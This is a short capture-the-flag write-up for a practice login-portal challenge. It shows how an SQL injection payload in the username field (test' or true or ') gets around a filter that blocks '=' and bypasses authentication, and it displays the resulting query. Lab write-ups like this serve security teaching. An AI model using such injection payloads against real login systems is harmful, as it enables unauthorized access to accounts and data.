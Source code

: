 # Login portal 1

## Description

https://ringzer0team.com/challenges/3

## Solution

By submitting `test'` we receive the following error message:

```
Wrong username / password.
```

We then try `test' or '1'='1`:

```
Illegal characters detected.
```

After several trials we understand the `=` sign is detected as an illegal character. So we simply transform the above condition into `test' or true or '`

```
SELECT ... FROM ... WHERE username='test' or true or '' AND password=''
```

|Field  | Value |
| ------------- | ------------- |
|username|test' or true or '|
|password|/* Any value, does not matter */|

And we obtain the Flag `FLAG-**************************`